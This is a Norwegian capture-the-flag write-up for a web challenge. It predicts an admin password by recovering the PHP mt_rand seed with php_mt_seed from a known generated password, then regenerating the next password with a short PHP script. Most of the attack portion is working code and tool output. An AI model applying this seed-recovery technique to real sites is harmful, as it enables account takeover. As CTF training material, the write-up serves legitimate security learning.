 Vi ønsker å lage et nytt passord til adminbrukeren. Desverre blir det nye passordet sladdet ut.

Det er her sårbarheten kommer inn. Ved å resette både adminpassordet og et brukerpassord (som vi får oppgitt) kan vi forsøke å regne ut hva det neste genererte passordet vil være:

![alt text](images/web/rewind/image.png)

Framgangsmåten for å knekke passordet er beskrevet i denne artikkelen: [whiteknightlabs.com](https://whiteknightlabs.com/2024/06/14/exploiting-gh-13690-mt_rand-in-php-in-2024/#_ftnref2)

Vi ønsker å bruke [php_mt_seed](https://github.com/openwall/php_mt_seed) for å knekke sekvensen. Først formaterer vi den genererte teksten vi allerede har slik at den kan brukes i verktøyet:

```py
chars = "ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz23456789"

for c in "YcHGHRG2YYubEqZZ":
    print(" ",chars.find(c), chars.find(c),"0","56",end="")
```

Så knekker vi sekvensen med verktøyet lastet ned fra githubrepoet:

```bash
./php_mt_seed 22 22 0 56  26 26 0 56  [...]  23 23 0 56  23 23 0 56
Pattern: EXACT-FROM-57 EXACT-FROM-57 [...] EXACT-FROM-57 EXACT-FROM-57
Version: 3.0.7 to 5.2.0
Found 0, trying 0xfc000000 - 0xffffffff, speed 95.2 Mseeds/s 
Version: 5.2.1+
Found 0, trying 0x8a000000 - 0x8bffffff, speed 1.3 Mseeds/s 
seed = 0x8ac10722 = 2327906082 (PHP 7.1.0+)
Found 1, trying 0x92000000 - 0x93ffffff, speed 1.3 Mseeds/s
```

Lagde så et script som kunne ta generere neste passord med en gitt seed.

```php
function random_password($pass_len) {
    // Skip letters and numbers that are visually similar
    $charset = 'ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz23456789';
    $charset_len = strlen($charset) - 1;
    $password = '';
  
    for ($i = 0; $i < $pass_len; $i++) {
      $password .= $charset[mt_rand(0, $charset_len)];
    }
    return $password;
}
// Set the seed for the random number generator
srand(2327906082);
echo ("current token is :" . random_password(16)." \n");

echo ("target reset token password is " . random_password(16) . " \n")
```


<details><summary>Flagg</summary></details>
